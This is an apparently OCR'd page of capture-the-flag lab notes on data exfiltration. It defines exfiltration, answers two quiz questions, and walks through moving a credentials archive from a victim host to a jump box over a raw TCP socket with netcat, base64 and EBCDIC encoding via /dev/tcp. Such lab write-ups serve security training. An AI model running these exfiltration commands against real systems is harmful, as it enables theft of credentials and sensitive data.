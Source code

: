 # Data Exfiltration - Hard

1. [Data Exfiltration](#data-exfiltration)
2. [Exfiltration using TCP socket](#exfiltration-using-tcp-socket)
3. [Exfiltration using SSH](#exfiltration-using-ssh)
4. [Exfiltration using HTTP(S)](#exfiltrate-using-https)
5. [Exfiltration using ICMP](#exfiltration-using-icmp)
6. [DNS Configurations](#dns-configurations)
7. [Exfiltration using DNS](#exfiltration-over-dns)
8. [DNS Tunneling](#dns-tunneling)

## Data Exfiltration

* Data exfiltration - taking unauthorized copy of sensitive data and moving it from the inside of an organization's network to the outside; post-compromised process.

* Use case scenarios of data exfiltration:

  * Exfiltrate data
  * C2 communications
  * Tunneling

```markdown
1. In which case scenario will sending and receiving traffic continue during the connection? - Tunneling

2. In which case scenario will sending and receiving traffic be in one direction? - Traditional data exfiltration
```

## Exfiltration using TCP socket

* Using TCP socket and data encoding to exfiltrate data is easy to detect as we rely on non-standard protocols.

```shell
#to establish tcp communication, we have 2 machines
#victim1.thm.com and jump.thm.com (JumpBox)

#setup listener on JumpBox
nc -lvp 8080 > /tmp/task4-creds.data
#once we receive data on port 80, it would be stored in that file

ssh thm@10.10.224.91 -p 2022
#connecting to victim1.thm.com on attacker machine

#we can view the creds file in ssh
cat task4/creds.txt

#using tcp socket to exfiltrate data 
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
#tar zcf to create archive file, base64 for encoding
#dd ebcdic to create encoded backup file
#finally the file is transferred using tcp socket to JumpBox, port 8080

#now, on JumpBox, we can check exfiltrated data
cd /tmp/

ls -la

dd conv=ascii if=task4-creds.data | base64 -d > task4-creds.tar
#converts file to ascii, then decodes base64 content

tar xvf task4-creds.tar
```